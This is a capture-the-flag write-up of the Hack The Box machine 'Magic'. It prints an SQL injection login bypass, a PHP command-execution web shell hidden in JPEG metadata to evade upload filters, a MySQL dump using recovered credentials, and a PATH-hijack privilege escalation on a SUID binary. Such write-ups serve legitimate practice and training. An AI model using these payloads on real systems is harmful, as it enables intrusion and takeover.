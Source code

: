 ```yaml
---
title: "Hack The Box - Magic"
tags: [linux,medium,sqli,upload,mysql,path hijack]
categories: HackTheBox-Linux
---
```


![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Magic%20Box%20d4eab9cb53084b0e825a0a891a772325/Untitled.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Magic%20Box%20d4eab9cb53084b0e825a0a891a772325/Untitled.png)

## NMAP :

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Magic%20Box%20d4eab9cb53084b0e825a0a891a772325/Untitled%201.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Magic%20Box%20d4eab9cb53084b0e825a0a891a772325/Untitled%201.png)

## Enumerating Web :

⇒ There's an login page :
[http://10.10.10.185/login.php](http://10.10.10.185/login.php)

→ We are able to login by performing SQLi :

`admin' or 1=1; --';`

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Magic%20Box%20d4eab9cb53084b0e825a0a891a772325/Untitled%202.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Magic%20Box%20d4eab9cb53084b0e825a0a891a772325/Untitled%202.png)

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Magic%20Box%20d4eab9cb53084b0e825a0a891a772325/Untitled%203.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Magic%20Box%20d4eab9cb53084b0e825a0a891a772325/Untitled%203.png)

→ Uploaded images go to :
[http://10.10.10.185/images/uploads/](http://10.10.10.185/images/uploads/)

## Exploiting Upload

⇒ There are filters which restrict us to upload php files. So we will use image magic bytes to bypass the check.

→ Lets use exiftool to embed our php script to an jpeg image :

```php
exiftool -DocumentName="<h1>Enox<br><?php if(isset(\$_REQUEST['cmd'])){echo '<pre>';\$cmd = (\$_REQUEST['cmd']);system(\$cmd);echo '</pre>';}__halt_compiler();?></h1>" index.jpeg
```

→ Now we will rename the file to index.php.jpeg and upload it 

→ Lets access it :
[http://10.10.10.185/images/uploads/index.php.jpeg](http://10.10.10.185/images/uploads/index.php.jpeg)

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Magic%20Box%20d4eab9cb53084b0e825a0a891a772325/Untitled%204.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Magic%20Box%20d4eab9cb53084b0e825a0a891a772325/Untitled%204.png)

We have command execution , lets pop an shell.

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Magic%20Box%20d4eab9cb53084b0e825a0a891a772325/Untitled%205.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Magic%20Box%20d4eab9cb53084b0e825a0a891a772325/Untitled%205.png)

## Privilege Escalation to User

⇒ We found an interesting file db.php5 in the web folder :

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Magic%20Box%20d4eab9cb53084b0e825a0a891a772325/Untitled%206.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Magic%20Box%20d4eab9cb53084b0e825a0a891a772325/Untitled%206.png)

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Magic%20Box%20d4eab9cb53084b0e825a0a891a772325/Untitled%207.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Magic%20Box%20d4eab9cb53084b0e825a0a891a772325/Untitled%207.png)

⇒ We got mysql credentials. Lets use it to dump everything in the database.

`mysqldump -u theseus -piamkingtheseus Magic`

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Magic%20Box%20d4eab9cb53084b0e825a0a891a772325/Untitled%208.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Magic%20Box%20d4eab9cb53084b0e825a0a891a772325/Untitled%208.png)

→ We got some credentials :
**Th3s3usW4sK1ng**

⇒ We are able to switch to theseus user using the credentials :

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Magic%20Box%20d4eab9cb53084b0e825a0a891a772325/Untitled%209.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Magic%20Box%20d4eab9cb53084b0e825a0a891a772325/Untitled%209.png)

## Privilege Escalation to Root

→ After running [linenum.sh](http://linenum.sh) we find an interesting SUID :

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Magic%20Box%20d4eab9cb53084b0e825a0a891a772325/Untitled%2010.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Magic%20Box%20d4eab9cb53084b0e825a0a891a772325/Untitled%2010.png)

**⇒ Escalating Privileges using path variable**

[https://www.hackingarticles.in/linux-privilege-escalation-using-path-variable/](https://www.hackingarticles.in/linux-privilege-escalation-using-path-variable/)

→ After running strings on the binary we see the following interesting things :

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Magic%20Box%20d4eab9cb53084b0e825a0a891a772325/Untitled%2011.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Magic%20Box%20d4eab9cb53084b0e825a0a891a772325/Untitled%2011.png)

→ We see that full path isnt specified so we can perform path hijacking.

```
cd /tmp
echo "/bin/bash" > lshw
chmod 777 lshw
echo $PATH
export PATH=/tmp:$PATH
cd /bin
./sysinfo
```

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Magic%20Box%20d4eab9cb53084b0e825a0a891a772325/Untitled%2012.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Magic%20Box%20d4eab9cb53084b0e825a0a891a772325/Untitled%2012.png)

→ We can't get any output so lets get an reverse shell using python reverse shell from pentest monkey

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Magic%20Box%20d4eab9cb53084b0e825a0a891a772325/Untitled%2013.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Magic%20Box%20d4eab9cb53084b0e825a0a891a772325/Untitled%2013.png)

